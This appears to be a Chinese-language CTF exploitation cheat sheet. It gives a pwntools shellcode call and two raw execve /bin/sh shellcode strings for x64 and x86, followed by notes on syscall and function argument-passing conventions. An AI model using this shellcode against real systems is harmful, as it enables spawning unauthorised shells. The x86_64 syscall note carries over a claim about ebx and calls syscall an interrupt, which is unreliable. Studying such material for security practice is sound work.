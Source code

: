 ## shellcode
pwntool生成shellcode，不過有44個字節比較大：
```
asm(shellcraft.sh())
```
x64上只有23個字節的shellcode
```
https://www.exploit-db.com/exploits/36858/
shellcode_x64 = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
```
x86上的19個字節的shellcode，但是在這裏好像只能用上面這個
```
https://www.exploit-db.com/exploits/40131
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x87\xe3\xb0\x0b\xcd\x80"
```
## 傳參約定
### 系统调用参数传递
x86_32
通过中断（int 0x80）来实现
寄存器 eax 中存放系统调用号，同时系统调用返回值也存放在 eax 中
当系统调用参数小于等于6个时，参数则必须按顺序放到寄存器 ebx，ecx，edx，esi，edi ，ebp中
当系统调用参数大于6个时，全部参数应该依次放在一块连续的内存区域里，同时在寄存器 ebx 中保存指向该内存区域的指针

x86_64
通过中断（syscall）指令来实现
寄存器 eax 中存放系统调用号，同时系统调用返回值也存放在 eax 中
当系统调用参数小于等于6个时，参数则必须按顺序放到寄存器 rdi，rsi，rdx，r10，r8，r9中
当系统调用参数大于6个时，全部参数应该依次放在一块连续的内存区域里，同时在寄存器 ebx 中保存指向该内存区域的指针
### 函数参数传递
x86_32
C调用约定（即用__cdecl关键字说明）按从右至左的顺序压参数入栈，由调用者把参数弹出栈。gcc 通过栈来传递参数的

 x86_64
当参数少于7个时， 参数从左到右放入寄存器: rdi, rsi, rdx, rcx, r8, r9。当参数为 7 个以上时， 前 6 个与前面一样， 但后面的依次从 "右向左" 放入栈中。 